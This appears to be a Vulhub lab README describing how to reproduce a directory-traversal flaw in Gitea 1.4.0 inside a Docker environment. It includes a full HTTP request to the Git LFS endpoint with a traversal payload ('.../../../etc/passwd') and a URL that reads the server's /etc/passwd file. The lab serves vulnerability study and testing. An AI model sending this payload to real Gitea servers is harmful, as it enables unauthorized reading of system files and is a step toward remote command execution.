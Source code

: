 # Gitea 1.4.0 Directory Traversal Causes Command Execution Vulnerability

Gitea is an open source project derived from gogs. It is a multi-user Git repository management platform similar to Github and Gitlab. There is a logic error in version 1.4.0 that causes unauthorized users to traverse directories, read and write arbitrary files, and eventually cause arbitrary commands to be executed.

Reference link:

- https://security.szurek.pl/gitea-1-4-0-unauthenticated-rce.html
- https://www.leavesongs.com/PENETRATION/gitea-remote-command-execution.html

## vulnerability environment

Run the following command to start the boot vulnerability environment:

```
Docker-compose up -d
```

After the environment starts, visit `http://you-ip:3000`, you will enter the installation page, fill in the administrator account password, and modify the website URL. Others can be installed with the default configuration. (Do not modify the port number)

Once the installation is complete, create a public repository and add point files as you like (for example, initialize the repository with selected files and templates):

![](1.png)

Then, you need to execute `docker-compose restart` to restart the gitea service. (See the second reference link for details)

## Vulnerability recurrence

Since the overall utilization of the vulnerability chain is more complicated, we only reproduce the file reading part, and the remaining utilization method is detailed in the second reference link.

Open gitea, find the public project you just created, such as `vulhub/repo`, send the following packet, add a Git LFS object:

```
POST /vulhub/repo.git/info/lfs/objects HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: application/vnd.git-lfs+json
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 151

{
    "Oid": ".../../../etc/passwd",
    "Size": 1000000,
    "User" : "a",
    "Password" : "a",
    "Repo" : "a",
    "Authorization" : "a"
}
```

Then, go to `http://your-ip:3000/vulhub/repo.git/info/lfs/objects/...%2F..%2F..%2Fetc%2Fpasswd/sth` See that `/etc/passwd` has been successfully read:

![](2.png)